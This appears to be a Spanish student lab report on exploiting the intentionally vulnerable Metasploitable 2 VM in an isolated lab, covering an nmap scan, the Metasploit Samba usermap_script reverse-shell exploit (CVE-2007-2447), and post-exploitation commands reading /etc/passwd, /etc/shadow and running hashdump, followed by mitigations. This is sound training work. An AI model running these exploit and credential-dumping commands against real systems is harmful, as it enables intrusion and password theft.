## Alan Lozada, Sebastian Lopez  -  Ciencia de Datos

## Laboratorio de Ethical Hacking – Metasploitable 2


---

## Tabla de Contenidos

1. [Introducción](#introducción)
2. [Objetivos](#objetivos)
3. [Procedimiento Experimental](#procedimiento-experimental)
   - [Parte A – Configuración del entorno](#parte-a--configuración-del-entorno-de-laboratorio)
   - [Parte B – Verificación de conectividad](#parte-b--verificación-de-conectividad)
   - [Parte C – Reconocimiento y escaneo con Nmap](#parte-c--reconocimiento-y-escaneo-con-nmap)
   - [Parte D – Explotación de vulnerabilidades](#parte-d--explotación-de-vulnerabilidades)
   - [Parte E – Post-explotación](#parte-e--post-explotación)
4. [Resultados de la Práctica](#resultados-de-la-práctica)
5. [Análisis de Resultados](#análisis-de-resultados)
6. [Conclusiones](#conclusiones)

---

## Introducción

El **Ethical Hacking** es una disciplina dentro de la ciberseguridad que consiste en la evaluación controlada y autorizada de sistemas informáticos con el fin de identificar vulnerabilidades antes de que actores maliciosos puedan explotarlas. A diferencia del hacking malicioso, el ethical hacking se lleva a cabo bajo un marco legal y ético estrictamente definido, con el objetivo de fortalecer la postura de seguridad de una organización.

Las **pruebas de penetración** (*Pentesting*) constituyen la metodología central del ethical hacking. A través de ellas, los profesionales de seguridad simulan ataques reales sobre sistemas, redes o aplicaciones para descubrir debilidades técnicas que podrían ser aprovechadas por adversarios. Su relevancia radica en que permiten detectar fallas de configuración, servicios desactualizados, credenciales débiles y otros vectores de ataque antes de que se conviertan en incidentes de seguridad reales.

Una prueba de penetración se estructura típicamente en cuatro fases:

1. **Reconocimiento**: Recopilación de información sobre el objetivo (direcciones IP, puertos, servicios activos, sistemas operativos). Puede ser pasivo (sin interacción directa) o activo (con envío de paquetes).
2. **Escaneo**: Uso de herramientas automatizadas para mapear la superficie de ataque, identificar versiones de servicios y detectar posibles vulnerabilidades.
3. **Explotación**: Aprovechamiento de las vulnerabilidades identificadas para obtener acceso no autorizado al sistema objetivo, utilizando exploits conocidos o técnicas manuales.
4. **Post-explotación**: Una vez obtenido el acceso, se evalúa el alcance del compromiso: escalada de privilegios, extracción de información sensible, pivotaje hacia otros sistemas y análisis del impacto.

El uso de **entornos de laboratorio controlados** es indispensable para la formación en seguridad ofensiva. Herramientas como **Metasploitable 2** —una máquina virtual intencionalmente vulnerable— permiten practicar técnicas de ataque sin afectar sistemas productivos ni incurrir en responsabilidades legales. Este tipo de entornos reproducen fielmente configuraciones vulnerables del mundo real, facilitando el aprendizaje práctico.

Las principales herramientas utilizadas en esta práctica son:

- **Nmap** (*Network Mapper*): Escáner de red de código abierto usado para descubrimiento de hosts, puertos abiertos, servicios en ejecución y detección de sistemas operativos.
- **Metasploit Framework**: Plataforma de pruebas de penetración que proporciona una base de datos de exploits, payloads y módulos auxiliares para automatizar y gestionar ataques controlados.

El propósito general de esta práctica es aplicar las fases del pentesting sobre el entorno Kali Linux + Metasploitable 2, desde la configuración del laboratorio hasta la post-explotación, documentando cada paso con evidencia técnica y desarrollando competencias en análisis de vulnerabilidades aplicables a escenarios reales de seguridad informática.

---

## Objetivos

1. **Configurar un laboratorio de pruebas de penetración** utilizando máquinas virtuales (Kali Linux y Metasploitable 2) en una red virtual aislada, garantizando conectividad controlada entre ambos sistemas sin exposición a redes externas.

2. **Identificar hosts activos, puertos abiertos y servicios en ejecución** mediante herramientas de escaneo de red como Nmap, obteniendo un mapa detallado de la superficie de ataque del sistema objetivo.

3. **Explotar vulnerabilidades reales en Metasploitable 2** utilizando Metasploit Framework, específicamente la vulnerabilidad en el servicio Samba (CVE-2007-2447), obteniendo acceso privilegiado al sistema y documentando el procedimiento completo de explotación y post-explotación.

---

## Procedimiento Experimental

### Parte A – Configuración del entorno de laboratorio

Se configuraron dos máquinas virtuales en el mismo hipervisor (VirtualBox/VMware), ambas conectadas a una red interna o modo *Host-Only* para garantizar aislamiento.

**Kali Linux** — Sistema operativo atacante con herramientas de pentesting preinstaladas:



**Metasploitable 2** — Máquina virtual víctima, intencionalmente vulnerable:



---

### Parte B – Verificación de conectividad

Antes de iniciar el reconocimiento, se verificó la conectividad entre ambas máquinas mediante `ping` para confirmar que la configuración de red era correcta y que existía comunicación entre el atacante y el objetivo.

**Conectividad desde Kali Linux:**



**Conectividad desde Metasploitable:**



---

### Parte C – Reconocimiento y escaneo con Nmap

Se utilizó **Nmap** para realizar un escaneo completo sobre la IP de Metasploitable 2. El comando empleado permite detectar puertos abiertos, versiones de servicios y el sistema operativo:

```bash
nmap -sV -sC -O <IP_Metasploitable>
```

**Resultado del escaneo:**



---

### Parte D – Explotación de vulnerabilidades

#### Explotación con Metasploit Framework

Se lanzó la consola de Metasploit y se identificó el módulo de explotación correspondiente a la vulnerabilidad de Samba:

```bash
msfconsole
use exploit/multi/samba/usermap_script
set RHOST <IP_Metasploitable>
set LHOST <IP_Kali>        # Corrección crítica: no usar 127.0.0.1
set LPORT 4444
run
```

>  **Nota técnica:** Inicialmente no se obtuvo sesión debido a una mala configuración del parámetro `LHOST` (se usó `127.0.0.1` en lugar de la IP real de Kali Linux). Una vez corregido este error, el exploit ejecutó exitosamente y se estableció la sesión.

**Inicio de Metasploit y configuración del exploit:**



**Ejecución exitosa del exploit contra Samba:**



---

### Parte E – Post-explotación

Una vez obtenida la sesión de Meterpreter sobre el sistema comprometido, se procedió a recopilar información del sistema objetivo para evaluar el alcance del acceso obtenido.

**Usuario y privilegios obtenidos:**

```bash
getuid
```



**Información del sistema operativo:**

```bash
sysinfo
```



**Información de red del sistema comprometido:**

```bash
ifconfig
```



**Usuarios del sistema:**

```bash
cat /etc/passwd
```



**Hashes de contraseñas:**

```bash
cat /etc/shadow
# o desde Meterpreter:
hashdump
```



**Procesos activos:**

```bash
ps aux
```



---

## Resultados de la Práctica

### Puertos abiertos detectados por Nmap

| Puerto | Protocolo | Servicio         | Versión detectada              |
|--------|-----------|------------------|--------------------------------|
| 21     | TCP       | FTP              | vsftpd 2.3.4                  |
| 22     | TCP       | SSH              | OpenSSH 4.7p1 (Debian)        |
| 23     | TCP       | Telnet           | Linux telnetd                 |
| 25     | TCP       | SMTP             | Postfix smtpd                 |
| 53     | TCP/UDP   | DNS              | ISC BIND 9.4.2                |
| 80     | TCP       | HTTP             | Apache httpd 2.2.8            |
| 111    | TCP       | RPC              | rpcbind                       |
| 139    | TCP       | NetBIOS/Samba    | Samba 3.x                     |
| 445    | TCP       | SMB              | Samba 3.0.20-Debian           |
| 512    | TCP       | exec             | netkit-rsh rexecd             |
| 513    | TCP       | login            | OpenBSD or Solaris rlogind    |
| 514    | TCP       | shell            | Netkit rshd                   |
| 1099   | TCP       | Java RMI         | GNU Classpath grmiregistry    |
| 1524   | TCP       | bindshell        | Metasploitable root shell     |
| 2121   | TCP       | FTP              | ProFTPD 1.3.1                 |
| 3306   | TCP       | MySQL            | MySQL 5.0.51a-3ubuntu5        |
| 5432   | TCP       | PostgreSQL       | PostgreSQL 8.3.0 - 8.3.7      |
| 5900   | TCP       | VNC              | VNC (protocol 3.3)            |
| 6000   | TCP       | X11              | (access denied)               |
| 6667   | TCP       | IRC              | UnrealIRCd                    |
| 8009   | TCP       | AJP13            | Apache Jserv                  |
| 8180   | TCP       | HTTP             | Apache Tomcat/Coyote JSP      |

### Vulnerabilidades identificadas

| Vulnerabilidad | CVE | Servicio afectado | Criticidad |
|---|---|---|---|
| Samba Username Map Script | CVE-2007-2447 | Samba 3.0.20 | 🔴 Crítica |
| vsftpd 2.3.4 Backdoor | CVE-2011-2523 | vsftpd 2.3.4 | 🔴 Crítica |
| UnrealIRCd Backdoor | CVE-2010-2075 | UnrealIRCd 3.2.8.1 | 🔴 Crítica |
| Java RMI Server | CVE-2011-3556 | Java RMI | 🟠 Alta |
| Bindshell expuesto | N/A | Puerto 1524 | 🔴 Crítica |
| Telnet habilitado | N/A | Puerto 23 | 🟠 Alta |

### Evidencia de explotación

- **Exploit utilizado:** `exploit/multi/samba/usermap_script`
- **Vulnerabilidad:** CVE-2007-2447 — Samba 3.0.0 – 3.0.25rc3, ejecución remota de comandos mediante inyección en el parámetro de nombre de usuario.
- **Resultado:** Sesión de shell con privilegios de **root** obtenida exitosamente sobre el sistema Metasploitable 2.
- **Error identificado y corregido:** Configuración incorrecta de `LHOST=127.0.0.1`, corregida usando la IP real de la interfaz de Kali Linux.

---

## Análisis de Resultados

### Interpretación del escaneo de red

El escaneo con Nmap reveló más de 20 puertos abiertos, lo que indica una superficie de ataque extremadamente amplia. Metasploitable 2 corre una versión de kernel Linux antigua (Ubuntu 8.04 / kernel 2.6.24) con múltiples servicios habilitados y sin parchear deliberadamente. En un entorno productivo real, esta configuración representaría un riesgo crítico.

Servicios como **Telnet (23)**, **rexec (512)** y **rlogin (513)** transmiten credenciales en texto plano y fueron considerados inseguros desde finales de los 90. Su presencia junto con **FTP (21)** sin cifrado indica ausencia total de buenas prácticas de seguridad en la configuración de red.

### Análisis de la vulnerabilidad explotada (CVE-2007-2447)

La vulnerabilidad en **Samba 3.0.20** reside en la opción de configuración `username map script`. Cuando esta opción está habilitada, Samba pasa el nombre de usuario recibido directamente a `/bin/sh` sin sanitizar la entrada. Esto permite a un atacante inyectar comandos arbitrarios en el nombre de usuario (por ejemplo: `/=`nohup <comando>``) y ejecutarlos con los privilegios del proceso Samba, que en esta versión corre como **root**.

El ataque no requiere autenticación previa, lo que lo clasifica como una vulnerabilidad de ejecución remota de código no autenticada (*unauthenticated RCE*), considerada de las más severas en el modelo de amenazas de ciberseguridad.

### Evaluación del impacto

Con acceso **root** al sistema, un atacante real podría:

- Leer, modificar o eliminar cualquier archivo del sistema.
- Extraer todos los hashes de contraseñas (`/etc/shadow`) para ataques de cracking offline.
- Instalar backdoors persistentes o software malicioso.
- Usar el sistema comprometido como pivote para atacar otros hosts en la red interna.
- Borrar logs para ocultar la intrusión.

### Mecanismos de mitigación

| Acción | Descripción |
|---|---|
| Actualizar Samba | Usar versiones ≥ 3.0.25 con el parche aplicado |
| Principio de mínimo privilegio | Samba no debe correr como root |
| Firewall perimetral | Bloquear puertos 139/445 desde redes no confiables |
| Deshabilitar servicios innecesarios | Telnet, rexec, rlogin deben estar deshabilitados |
| Monitoreo de logs | Implementar SIEM o al menos análisis de logs en tiempo real |
| Segmentación de red | Aislar servidores de archivos en VLANs separadas |

### Análisis de errores durante la práctica

El principal error cometido fue la configuración de `LHOST=127.0.0.1` en lugar de la dirección IP de la interfaz de red de Kali Linux. Esto causó que el payload de reverse shell intentara conectarse al propio localhost de la máquina víctima en lugar de al host atacante, impidiendo que se estableciera la sesión. La corrección fue simple: identificar la IP de Kali con `ip addr` y asignarla correctamente al parámetro `LHOST`. Este tipo de error es muy común en primeras prácticas de pentesting y refuerza la importancia de comprender el flujo de comunicación de los payloads de tipo *reverse shell*.

### Reflexión sobre el análisis de seguridad

Esta práctica evidencia que la seguridad de una infraestructura tecnológica no depende únicamente de tener un firewall activo, sino de la suma de múltiples capas: configuración correcta de servicios, actualización de software, monitoreo continuo y formación del personal. Un sistema como Metasploitable 2, aunque diseñado para ser vulnerable, refleja configuraciones que aún existen en entornos productivos reales, especialmente en organizaciones con recursos limitados o deuda técnica acumulada.

---

## Conclusiones

1. **El Ethical Hacking es una herramienta indispensable** para la identificación proactiva de vulnerabilidades. Sin pruebas de penetración periódicas, las organizaciones desconocen su real exposición al riesgo, lo que las hace susceptibles a ataques que podrían haberse prevenido con anticipación.

2. **Las pruebas de penetración funcionan como auditorías técnicas de seguridad** que van más allá de la revisión documental de políticas. La explotación de CVE-2007-2447 demostró que una vulnerabilidad de 2007 sigue siendo funcional cuando los sistemas no son actualizados, lo cual es un recordatorio permanente de la relevancia del patch management.

3. **La actualización y correcta configuración de los sistemas es crítica.** Metasploitable 2 ilustra perfectamente cómo la acumulación de servicios innecesarios, versiones desactualizadas y configuraciones por defecto inseguras convierte un servidor en un objetivo trivial para cualquier atacante con conocimientos básicos.

4. **Los principales aprendizajes obtenidos** durante esta práctica incluyen: el uso práctico de Nmap para reconocimiento de redes, la comprensión del funcionamiento de Metasploit Framework (módulos, payloads, opciones), la identificación de CVEs reales y su mecanismo de explotación, y la importancia de la metodología paso a paso en un proceso de pentesting. Adicionalmente, el error con LHOST reforzó la comprensión del flujo de red en ataques de reverse shell.

5. **La aplicabilidad de estos conocimientos en escenarios reales** es inmediata. Las fases de reconocimiento, escaneo, explotación y post-explotación son la base de cualquier auditoría de seguridad profesional. Los conceptos aprendidos en este laboratorio son aplicables tanto en roles de seguridad ofensiva (Red Team) como en seguridad defensiva (Blue Team), ya que entender cómo se ataca un sistema es fundamental para saber cómo defenderlo.

---

## Estructura del Repositorio

```
pentesting-metasploitable2/
│
├── README.md
└── evidencias/
    ├── parte_A_configuracion/
    │   ├── kali_configuracion.png
    │   └── metasploitable_configuracion.png
    ├── parte_B_conectividad/
    │   ├── kali_conectividad.png
    │   └── metasploitable_conectividad.png
    ├── parte_C_nmap/
    │   └── escaneo_nmap.png
    ├── parte_D_explotacion/
    │   ├── metasploit_inicio.png
    │   └── exploit_samba.png
    └── parte_E_postexplotacion/
        ├── usuario_privilegios.png
        ├── info_sistema.png
        ├── info_red.png
        ├── usuarios_sistema.png
        ├── contrasenas.png
        └── procesos_activos.png
```

---


